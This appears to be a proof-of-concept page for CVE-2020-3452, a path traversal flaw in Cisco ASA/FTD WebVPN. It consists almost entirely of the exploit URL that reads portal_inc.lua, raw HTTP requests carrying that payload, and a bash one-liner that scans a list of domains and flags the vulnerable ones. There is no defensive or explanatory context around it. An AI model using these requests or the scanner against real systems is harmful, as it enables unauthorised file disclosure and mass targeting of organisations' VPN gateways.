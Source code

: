 POC
---

    /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

    GET /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../ HTTP/1.1
    Host: 127.0.0.1
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3494.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: webvpnlogin=1; webvpnLang=en

    GET /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../ HTTP/1.1
    Host: 127.0.0.1
    Content-Length: 2

從列表中單行檢查CVE-2020-3452

    while read DOM; do curl -s -k "https://$DOM/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q Cisco && echo [VULNERABLE] $DOM || echo [NOT VULNERABLE] $DOM; done < $1